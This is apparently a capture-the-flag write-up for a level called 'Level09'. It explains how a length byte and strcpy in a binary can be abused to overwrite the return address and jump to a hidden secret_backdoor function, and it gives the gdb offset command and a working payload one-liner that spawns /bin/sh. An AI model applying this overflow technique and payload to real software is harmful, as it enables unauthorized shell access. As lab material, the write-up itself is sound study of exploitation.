 # Level09

## What the binary does
After reversing the binary, we can see it lets you input a username, then a message to send.
Looking deeper in the code and functions, we can see a function `secret_backdoor` that gets a string in the standard entry, and executes it with a call on the system function. 

So our goal is to jump on the `secret_backdoor` function.

## Finding the exploit
The buffer inside the `handle_msg` function is not secure and dangerous because it is initialized with a size of 140, stores a value at buffer[180] and then, in the `set_username` function it stores our input from buffer[140] to buffer[181].
In the `set_msg` function, the call on strcpy does copy the variable `message` in our buffer with the size of the value stored at buffer[180].
We then will have to store a big value (```\xff```) in buffer[180] so we will be able to overflow on the return address in the set_username function.

## Finding the offset
To find the offset, we once again use the buffer overflow pattern generator tool from Wiremask.
In gdb : 
```(python -c 'print "A" * 40 + "\xd0"'; python -c 'print "OVERFLOW PATTERN"';)```
This command segfault at  ```0x4138674137674136```, which gives us an offset of 200.

## Crafting the payload
To find the address of the `secret_backdoor` function, we run the program with gdb after breaking on the main function. Then we can see its address is : 0x000055555555488c
In little endian, the address is : \x8c\x48\x55\x55\x55\x55\x00\x00
We also have to provide the command we want to execute : ```/bin/sh```.

## Final payload
So the final payload is :
```(python -c 'print "A" * 40 + "\xff"'; python -c 'print "\x90" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; python -c 'print "/bin/sh"'; cat) | ./level09```